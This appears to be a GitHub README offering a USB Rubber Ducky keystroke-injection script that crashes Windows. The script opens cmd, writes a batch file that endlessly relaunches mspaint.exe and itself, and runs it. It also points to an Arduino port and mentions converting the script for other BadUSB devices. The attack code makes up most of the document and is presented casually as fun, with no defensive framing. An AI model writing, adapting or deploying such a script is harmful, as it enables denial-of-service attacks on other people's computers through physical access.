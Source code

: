 # About...
Version: 1.0

Author: BlueArduino20

# Fork Bomb for Rubber Ducky (For Windows)
Really basic script to crash Windows executing exponencially "mspaint.exe" and the same bat. It could be fun!

It's designed for the USB Rubber Ducky, but you can convert it for other BadUSB working with arduino with Duckuino.js (By d4n5h): https://github.com/d4n5h/Duckuino

Anyway, here you've got the code:

# Code for Rubber Ducky

<pre><code>REM Fork Bomb for Windows. By: BlueArduino20
REM Let's give windows time to recognize our BadUSB
DELAY 2000
GUI r
ENTER
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING copy con F.bat
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat
ENTER
STRING GOTO A
ENTER
CONTROL z
ENTER
DELAY 100
STRING start F.bat</pre></code>

# Arduino code

<a href="https://github.com/BlueArduino20/Fork-bomb-for-Rubber-Ducky/blob/master/fork-bomb-arduino-script.ino">Fork-bomb-arduino-script.ino</a>
